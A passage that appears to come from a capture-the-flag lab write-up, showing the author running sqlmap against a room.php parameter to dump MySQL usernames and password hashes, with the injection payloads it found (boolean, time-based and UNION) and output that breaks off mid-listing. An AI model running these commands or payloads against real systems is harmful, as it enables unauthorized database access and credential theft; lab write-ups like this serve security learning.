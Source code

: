     [*] ending @ 15:03:41 /2019-06-28/



I can use this to dump the sql username and password:



    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --users --passwords
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [(]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 15:05:59 /2019-06-28/

    [15:05:59] [INFO] fetched random HTTP User-Agent header value 'Opera/9.80 (Windows NT 5.1; U; ru) Presto/2.5.22 Version/10.50' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:06:00] [INFO] resuming back-end DBMS 'mysql'
    [15:06:00] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)

        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:06:00] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:06:00] [INFO] fetching database users
    [15:06:00] [INFO] used SQL query returns 28 entries
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''